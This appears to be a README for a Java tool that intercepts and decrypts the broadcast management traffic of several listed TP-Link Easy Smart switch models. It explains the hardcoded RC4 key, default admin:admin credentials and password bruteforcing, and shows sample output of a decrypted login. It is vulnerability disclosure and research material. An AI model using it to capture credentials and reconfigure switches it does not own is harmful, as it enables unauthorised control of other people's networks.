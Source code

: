 ## Running the tool
Compile: 

	cd src
	javac Intercept.java

Run (for example): 

	cd src
	java Intercept

## Why is it possible to intercept the management traffic?
- The traffic goes over broadcast.
- The traffic is encrypted using RC4 with a fixed key located *hardcoded* in the "Easy Smart Configuration Utility"

## Is it possible to configure foreign devices?
Yes, after intercepting or bruteforcing the password (default is admin:admin on all devices, the maximum password length is 16) without any restrictions.

##Package
`<header>[<type><length><value>]`  
The body may contain more than one data block called "TLV".

##General communications
The password is transmitted on each configuration change request.

##List of possibly affected devices
- TL-SG1024DE 1.0
- TL-SG1024DE 2.0
- TL-SG1016DE 1.0
- TL-SG1016DE 2.0
- TL-SG108E 1.0
- TL-SG108E 2.0
- TL-SG105E 1.0
- TL-SG105E 2.0
- TL-SG108PE 1.0

##Sample output for a login

	===NEW PACKET ON PORT 29809 FROM /172.19.79.55
	Decrypted data:
	 Version:1
	 OPCODE:3
	 MAC:F4F26DD27F12
	 HOST MAC:080027D3524B
	 SEQUENCE NUMBER:618
	 ERROR CODE (7 or 8 are somehow bad):0
	 LENGTH:56
	 FRAGMENT OFFSET:0
	 TOKEN ID:27750
	 CHECKSUM (apparently not implemented):0
	  BODY:
	 -START TLV-
	  TYPE:512 (Username)
	  LENGTH:6
	  BODY:61646D696E00 (admin::StringType)
	 -START TLV-
	  TYPE:514 (Password)
	  LENGTH:6
	  BODY:61646D696E00 (admin::StringType)
	 -START TLV-
	  TYPE:-1 (Unknown)
	  LENGTH:0
	  BODY: (::unknown)
	  RAW: 0103F4F26DD27F12080027D3524B026A000000000038000000006C66000000000200000661646D696E000202000661646D696E00FFFF0000
